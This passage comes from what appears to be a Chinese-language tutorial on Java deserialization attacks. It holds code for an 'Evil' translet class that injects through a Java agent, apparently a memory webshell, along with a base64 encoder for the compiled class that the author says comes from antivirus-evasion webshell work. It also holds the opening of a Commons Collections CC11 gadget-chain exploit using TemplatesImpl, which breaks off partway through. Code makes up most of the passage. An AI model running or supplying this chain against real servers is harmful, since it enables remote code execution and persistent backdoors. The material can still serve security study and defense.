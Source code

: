 ```java
                    Method detach = VirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    System.out.println("Inject Success!");
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
编译成class文件，然后转换成base64编码
```java
import java.net.URI;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class Util {
    public static void main(String[] args) throws Exception {
        URI uri = Util.class.getClassLoader().getResource("Evil.class").toURI();
        byte[] codeBytes = Files.readAllBytes(Paths.get(uri));
        String base = Base64.getEncoder().encodeToString(codeBytes);
		System.out.println(base);
    }
}
```
这个是之前康哥分享免杀马的时候用到的一个用来进行Base64编码加密的文件，借来用用。
得到编码后利用CC11进行注入
```java
package com.sf;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC11 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class cc11 = templates.getClass();
        Field nameField = cc11.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "m0re");
```